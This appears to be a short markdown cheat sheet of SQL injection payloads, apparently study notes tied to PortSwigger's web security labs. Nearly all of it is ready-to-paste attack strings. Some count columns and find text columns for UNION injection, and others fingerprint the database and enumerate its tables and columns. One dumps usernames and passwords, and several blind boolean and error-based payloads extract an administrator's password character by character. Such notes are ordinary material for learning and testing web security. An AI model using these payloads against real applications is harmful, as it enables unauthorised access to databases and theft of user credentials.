 ## Find the number of columns being fetched:
- ' ORDER BY 1 -- 
- ' UNION SELECT NULL,NULL --
- ' UNION SELECT NULL FROM DUAL --

## Finding columns with a useful data type:
- ' UNION SELECT 'a',NULL,NULL,NULL --
- ' UNION SELECT NULL,'a',NULL,NULL --
- ' UNION SELECT NULL,NULL,'a',NULL --
- ' UNION SELECT NULL,NULL,NULL,'a' --

## Finding the info of database:
### Type and version:
- SELECT @@version
- SELECT * FROM v$version
- SELECT version()

### Name:
- SELECT database()

### Tables:
- SELECT table_name FROM information_schema.tables WHERE table_schema="db_name"

### Columns:
- SELECT column_name FROM information_schema.columns WHERE table_schema="db_name" AND table_name="table_name"

## Oracle tables:
- SELECT * FROM all_tables

## Oracle columns:
- SELECT * FROM all_tab_columns WHERE table_name = 'USERS'

## Multiple values within a single column:
### Oracle concat (||) operator:
- ' UNION SELECT username || '~' || password FROM users -- 

## Blind SQLI:
### Conditional respose sqli:
- ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

### Inducing conditional responses by triggering SQL errors:
- ' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
- ' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a 
- ' AND (SELECT CASE WHEN (SUBSTR(password,13,1)='n') THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a

# SQLI Cheatsheet
- https://portswigger.net/web-security/sql-injection/cheat-sheet